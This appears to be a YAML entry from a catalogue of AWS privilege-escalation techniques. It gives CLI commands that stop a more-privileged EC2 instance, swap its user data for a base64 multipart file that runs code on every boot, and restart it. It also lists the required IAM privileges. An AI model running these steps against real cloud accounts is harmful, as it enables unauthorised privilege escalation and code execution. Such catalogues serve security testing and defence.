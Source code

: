 ```yaml
---
description: |
    This command should be targeted against an existing ec2 instance with more privileges than currently possessed.

    The commands stop the instance, update the instance user data and then start the instance. By default, instance user data only executes the first time that an instance is started. However, through the use of a multipart mime file it is possible to reconfigure the instance to run the user data on every restart, and provide code to execute. Instructions on the format of this file can be found [here](https://aws.amazon.com/premiumsupport/knowledge-center/execute-user-data-ec2/). This file must be base64 encoded before being uploaded.
details:
    AWS-CLI-command:
        - code: |
            aws ec2 stop-instances --instance-id {target instance id}
            aws ec2 modify-instance-attribute --instance-id {target instance id} --attribute userData --value file://{path to base64 encoded file}
            aws ec2 start-instances --instance-id {target instance id}
    required-privileges:
        - code: |
            ec2:StopInstances
            ec2:StartInstances
    required-configurations:
        - code: |
            An ec2 instance with more privileges than you.
    useful-privileges:
        - code: |
            ec2:ListInstances
            ec2:GetInstance
            iam:GetRole
    sources:
        - code: |
            Lucas Fedyniak-Hopes
---
```




